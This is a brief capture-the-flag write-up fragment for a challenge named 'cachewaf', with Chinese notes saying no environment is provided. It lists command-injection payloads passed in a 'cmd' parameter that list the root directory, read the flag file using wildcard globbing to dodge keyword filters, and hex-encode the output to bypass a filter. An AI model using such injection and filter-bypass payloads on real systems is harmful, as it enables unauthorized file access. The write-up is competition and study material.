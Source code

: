 ## cachewaf

不提供环境
```
cmd=echo `ls /`;
cmd=echo `cat /f?ag`;
flag被替换，编码绕过
cmd=echo bin2hex(`cat /f?ag`);
```